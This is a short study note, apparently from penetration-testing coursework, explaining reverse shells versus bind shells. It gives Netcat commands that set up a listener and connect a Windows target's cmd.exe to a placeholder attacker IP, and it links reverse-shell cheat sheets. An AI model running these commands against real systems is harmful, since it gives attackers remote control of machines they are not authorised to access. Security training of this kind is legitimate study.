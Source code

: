 
+ A reverse shell is a type of remote shell where the target connects directly to a listener on the attacker's system, consequently allowing for execution of commands on the target system.

![[Pasted image 20231018011642.png]]
- Target connects to Netcat listener on Attacker system.


**Advantages of a reverse shell over bind shell**

1. In case of a reverse shell, the listener is setup on the attacker machine. The target machine instead connects to the attacker machine. 
2. Outgoing traffic from a system is rarely blocked by security mechanisms, this will help the target machine connect to the attacker without raising much suspicion. 

**Disadvantage of a reverse shell**

1. In order to establish a connection between the attacker and the target machine, the target machine needs to know the IP address of the attacker machine. This poses the risk of having the attacker IP address leaked. 

### How to gain reverse shell access using `nc` ?

1. Transfer the `nc.exe` file from the Linux machine to the Windows machine.

2. Set up the listener in the attacker machine.
```
nc -lnvp <port>
```

3. Connect to the attacker machine using `nc.exe`
```
nc.exe -nv <attacker-ip> <port> -e cmd.exe
```

4. This will provide us with a reverse command shell session on our Linux machine.

5. This process can be repeated on multiple operating systems regardless of whether its a Windows or Linux system. 

6. Since it's a reverse shell connection, the connection doesn't need to be made by `nc`. It can also be made using a `PowerShell` or `Bash` code.

### Cheat Sheet for Reverse Shell 

1. Codes in various language are available in the `PayloadsAllTheThings` Github repository to connect to a `nc` listener running on the attacker machine.
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

2. We can use the https://www.revshells.com/ website to generate reverse shells, bind shells or `MSFVenom` payloads for both Linux and Windows in the language of our choice. 